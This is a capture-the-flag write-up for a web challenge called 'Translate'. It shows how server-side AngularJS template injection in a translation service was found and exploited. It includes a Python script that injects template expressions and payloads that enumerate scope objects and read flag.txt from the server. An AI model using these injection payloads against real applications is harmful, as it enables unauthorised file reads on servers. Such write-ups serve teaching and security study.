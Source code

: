 # Translate (web 246p, 33 solved)

In the task we get pointed to a webpage which provides a simple translation service.
We know that the flag is in `./flag.txt`.

The service can translate between english and french and we can add new words to the dictionary.
We can also dump the dictionary, which shows that there is an interesting value there.
In one of the translations in the dump there is `{{userQuery}}`, but once we fetch this translation it actually gets changed server-side to our query!

This implies some kind of server-side template injection vulnerability.
We wrote a simple script to simplify fuzzing the templates:

```python
import re
import urllib

import requests

s = requests.session()


def add_exploit(command):
    s.get("http://translate.ctfcompetition.com:1337/add?lang=fr&word=not_found&translated=" + urllib.quote_plus(command))


def check_output():
    data = s.get("http://translate.ctfcompetition.com:1337/?query=dupa&lang=fr").text
    pattern = re.findall('<!----><div ng-if="!i18n.word\(userQuery\)">\s*(.*?)\s*</div><!---->', data, re.DOTALL)
    if len(pattern) == 1:
        return pattern[0]
    else:
        return data


def main():
    while True:
        command = raw_input("> ")
        add_exploit(command)
        print(check_output())
```

It simply adds a new word, and then fetches the "translation".
So if we send `{{1+1}}` we get back `2`.

Fuzzing this a little shows us that this gets evaluated by Angular on the server side somehow.
So we need to inject angular code which will read the flag for us.

Fuzzing the side a bit more, shows that if we try to add a new word to some different language eg. `http://translate.ctfcompetition.com:1337/add?lang=z&word=document&translated=x` it gives error:

```
Error: ENOENT: no such file or directory, open './i18n/z.json'
    at Object.fs.openSync (fs.js:646:18)
    at Object.fs.readFileSync (fs.js:551:33)
    at Object.load (/usr/local/chall/srcs/restricted_fs.js:9:20)
    at app.get (/usr/local/chall/srcs/server.js:158:57)
    at Layer.handle [as handle_request] (/usr/local/chall/node_modules/express/lib/router/layer.js:95:5)
    at next (/usr/local/chall/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/usr/local/chall/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/usr/local/chall/node_modules/express/lib/router/layer.js:95:5)
    at /usr/local/chall/node_modules/express/lib/router/index.js:281:22
    at Function.process_params (/usr/local/chall/node_modules/express/lib/router/index.js:335:12)
```

So we know there is some `i18n` module loaded, and we've seen it also in the page output `<div ng-if="!i18n.word\(userQuery\)">`.
We can send `{{i18n}}` and get back `{}`, which means this object is in scope!
We can also call `{{i18n.word('something')}}` to get back translation for given word.

We guessed this object has to load the dictionary somehow, so maybe it could read the flag for us.
So we checked what other methods this object has by sending: `<pre ng-repeat="(key,val) in this.i18n">{{key}} = {{val}}</pre>`

And from this we got only two functions available: `word` which we knew and `template`.
Calling `{{i18n.template('flag.txt')}}` gave back the flag: `CTF{Televersez_vos_exploits_dans_mon_nuagiciel}`

